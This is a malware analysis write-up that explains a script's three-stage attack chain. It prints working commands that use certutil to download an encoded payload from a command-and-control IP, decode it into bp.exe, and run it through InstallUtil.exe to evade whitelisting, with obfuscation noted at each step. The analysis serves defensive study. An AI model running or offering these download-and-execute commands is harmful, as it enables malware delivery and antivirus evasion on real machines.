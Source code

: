 ## The Three-Stage Attack Chain

The script executes a sequence of three distinct commands, as laid out in the code's comments and structure.

### Stage 1: Delivery – Downloading the Payload
This stage is initiated by the first `ex.Run(cmd)` call and is responsible for fetching the malware from a command-and-control (C2) server.

*   **Assembled Command (`cmd`)**:
    ```powershell
    %comspec% /v /c "set t=http://&& certutil.exe -urlcache -split -f !t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
    ```
*   **Execution Analysis**:
    1.  The command first creates a temporary environment variable `t` with the value `http://`. This is an evasion technique to avoid having the full URL visible in one string.
    2.  It then uses `certutil.exe`, a legitimate Windows utility, to download a file. This is a "Living Off the Land" (LOLBin) technique.
    3.  The final, effective command executed is:
        ```bash
        certutil.exe -urlcache -split -f http://192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt
        ```
*   **Outcome**: An encoded payload named `file.txt` is downloaded and saved to `C:\Windows\Tasks\`.

### Stage 2: Setup – Decoding the Payload
This stage, executed by `ex.Run(cmd2)`, prepares the downloaded file for execution.

*   **Deobfuscated Command (`str4`)**:
    ```bash
    certutil -decode C:\Windows\Tasks\file.txt C:\Windows\Tasks\bp.exe
    ```
*   **Execution Analysis**:
    The script once again uses `certutil.exe`. The `-decode` flag instructs it to process `file.txt` (which is likely Base64 encoded) and write the decoded binary content to a new file.
*   **Outcome**: The encoded `file.txt` is decoded into a malicious executable file named `bp.exe`.

### Stage 3: Execution – Running the Malware
This is the final stage, executed by `ex.Run(cmd3)`, which runs the malicious payload.

*   **Deobfuscated Command (`str5`)**:
    ```bash
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\bp.exe
    ```
*   **Execution Analysis**:
    Instead of running `bp.exe` directly, the attacker uses another LOLBin, `InstallUtil.exe`. This legitimate .NET Framework utility is often abused by malware to execute code in a way that can bypass application whitelisting and some antivirus heuristics. The `/U` (uninstall) switch is a common trigger for this malicious execution.
*   **Outcome**: The malicious payload `bp.exe` is executed on the system.
